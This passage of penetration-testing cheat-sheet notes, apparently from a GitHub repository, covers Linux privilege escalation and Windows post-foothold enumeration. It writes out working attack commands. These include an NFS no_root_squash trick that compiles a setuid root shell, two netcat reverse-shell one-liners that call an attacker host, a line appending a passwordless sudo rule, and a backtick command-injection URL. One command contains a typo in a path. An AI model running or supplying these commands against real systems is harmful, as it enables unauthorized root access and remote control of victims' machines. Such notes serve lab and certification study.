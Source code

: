 #### NFS Root Squashing
- `cat /etc/exports`
	- if it says `'no_root_squash'` then the directory shown is shareable and can be mounted
	- Because it's no root squash, everything we do as root on our machine, it will be as root as the target machine even though we are a normal user on the target
so from kali: 
- `mkdir /tmp/mountme`
- `mount -o rw,vers=2 $kaliIP:/tmp /tmp/mountme`
- `echo 'int main() { setgid(0); setuid(0); system("/bin/bash"); return 0; }' > /tmp/mountme/x.c`
- `gcc /tmp/mountme/x.c -o /tmo/mountme/x`
- `chmod +s /tmp/mountme/x`
then from target:
- `./x`

#### Other
Reverse shells:
- `busybox nc $kaliIP 4444 -e sh`
- `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $kaliIP $kaliPort >/tmp/f`

Add file to path:
`export PATH="/usr/lib/gcc/i486-linux-gnu/4.6/:$PATH"`

If you can edit `/etc/sudoers`:
- `"echo $user ALL=(ALL) NOPASSWD: ALL >> c:$LFILE"`

Remember that backticks can take precedence over other commands. Ex:
- In URL: 10.10.186.101:8081/ping?ip=`ls`

## After Windows Foothold

### Local Enumeration

#### cmd
User enum:
- `whoami`
- `whoami /groups` - display groups of current user
- `whoami /priv` - check our privileges
- `net user` - get list of all local users on machine (this will not include service accounts such as inetserv)
- `net user steve` - get user info for steve
- `net group /domain` - all local groups
- `net localgroup administrator` - can sometimes not work as just `net localgroup` if we don't have a logged in session
- `net group "Domain Admins" /domain`

- `dsquery user`
- `dsquery computer`
- `dsquery * -filter "(&(objectCategory=person)(objectClass=user)(userAccountControl:1.2.840.113556.1.4.803:=32))" -attr distinguishedName userAccountControl` (PASSWD_NOTREQD)

findstr (grep for Windows) commands: https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/findstr
